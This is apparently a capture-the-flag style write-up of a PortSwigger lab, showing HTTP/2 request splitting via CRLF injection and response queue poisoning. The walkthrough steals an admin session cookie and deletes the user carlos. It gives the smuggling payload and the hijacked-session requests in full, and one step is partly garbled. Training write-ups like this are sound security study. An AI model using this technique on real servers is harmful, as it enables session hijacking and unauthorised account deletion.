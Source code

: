 # HTTP/2 request splitting via CRLF injection

## This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming headers.

## To solve the lab, delete the user `carlos` by using [response queue poisoning](https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning) to break into the admin panel at `/admin`. An admin user will log in approximately every 10 seconds.

## The connection to the back-end is reset every 10 requests, so don't worry if you get it into a bad state - just send a few normal requests to get a fresh connection.

---

step 1
send homepage to repeater

![screenshot](images/images_lab14/lab14_get_request_homepage.jpg)

step 2
change get request GET / to GET /x

![screenshot](images/images_lab14/lab14_get_request_with_404_page.jpg)

step 3
add payload

```http
bar

GET /x HTTP/1.1
Host: 0ac2004c03a60b4a823d249c00270089.web-security-academy.net
```

![screenshot](images/images_lab14/lab14_add_payload.jpg)

step 4

send request multiple time to get 302 response

![screenshot](images/images_lab14/lab14_getting_302_response.jpg)

```http
HTTP/2 302 Found
Location: /my-account
Set-Cookie: session=6Mj7DsnwJX0iwQ2VSbGWdKGXuYsqQ4vW; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

step 5
change value
send request using **\_\_\_\_**

step 1

```http
GET /admin HTTP/1.1
Host: 0ac2004c03a60b4a823d249c00270089.web-security-academy.net
Cookie: session=6Mj7DsnwJX0iwQ2VSbGWdKGXuYsqQ4vW;
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
```

![screenshot](images/images_lab14/lab14_access_admin_panel.jpg)

step 6
delete carlos account

```http
GET /admin/delete?username=carlos HTTP/2
Host: 0ac2004c03a60b4a823d249c00270089.web-security-academy.net
Cookie: session=6Mj7DsnwJX0iwQ2VSbGWdKGXuYsqQ4vW;
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
```

![screenshot](images/images_lab14/lab14_delete_carlos_account.jpg)

step 7
![screenshot](images/images_lab14/lab14_lab_solved.jpg)
